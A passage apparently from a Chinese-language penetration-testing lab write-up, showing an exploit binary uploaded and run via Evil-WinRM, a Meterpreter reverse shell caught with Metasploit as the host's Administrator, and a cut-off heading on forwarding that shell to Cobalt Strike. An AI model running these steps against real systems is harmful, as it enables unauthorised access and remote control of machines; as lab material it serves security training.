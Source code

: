 
触发
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload exp.exe
Info: Uploading exp.exe to C:\Users\Administrator\Documents\exp.exe

                                                             
Data: 98400 bytes of 98400 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\Administrator\Documents> .\exp.exe

```


收到rev shell
```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.50.102.104:443 
[*] Sending stage (175174 bytes) to 10.200.101.200
[*] Meterpreter session 2 opened (10.50.102.104:443 -> 10.200.101.200:60588) at 2022-08-24 05:08:24 -0400

meterpreter > getuid
Server username: GIT-SERV\Administrator

```



## 转发rev shell流量到Cobalt Strike


创建一个linux IP端口的监听http-n
